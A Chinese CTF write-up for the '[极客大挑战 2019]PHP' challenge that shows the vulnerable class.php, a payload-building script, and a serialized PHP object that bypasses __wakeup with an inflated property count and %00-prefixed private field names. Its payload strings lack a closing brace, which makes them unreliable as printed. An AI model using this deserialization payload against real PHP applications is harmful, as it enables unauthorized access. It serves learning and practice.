


# [极客大挑战 2019]PHP

## Tag

备份文件，PHP 反序列化

***

## Writeup

题目有提示备份，一般会想到去访问 .bak 后缀的文件，这道题是直接访问 `www.zip` 能够下载（实在不行 dirsearch 也是可以的），可以看到里面有一个 class.php：

```php
<?php
include 'flag.php';

error_reporting(0);

class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';
    }

    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();

            
        }
    }
}
?>
```

同时在 index.php 中我们可以看到：



反序列化，构造 Payload：

```php
<?php
class Name{
    private $username = 'admin';
    private $password = '100';
}
$select = new Name();
$res=serialize(@$select);   
echo $res
?>
```

但是这样的 Payload 肯定不行，因为 wakeup 会把 username 变为 guest，因此重点是要绕过 wakeup，查询资料发现正常运行上面程序的结果为：`O:4:"Name":2:{s:14:"Nameusername";s:5:"admin";s:14:"Namepassword";s:3:"100";`，具体含义为：

- O 表示 Object，对象
- `4:"Name"` 表示构建了一个叫 Name 的对象，有 4 个字符串
- 2 表示该对象有两个属性

要想绕过 wakeup，只需要属性数量大于实际给的数量，即将 Payload 改为：`O:4:"Name":3:{s:14:"Nameusername";s:5:"admin";s:14:"Namepassword";s:3:"100";` ，但是这样还是有问题，注意到后面的 14 表示字符串长度，但是后面的字符串只有 12 个字符，因为私有字段的字段名在序列化时，类名和字段名前面都会加上\0（即%00）的前缀，但是它没有被实体化，最终 Payload：`O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";s:3:"100";`:

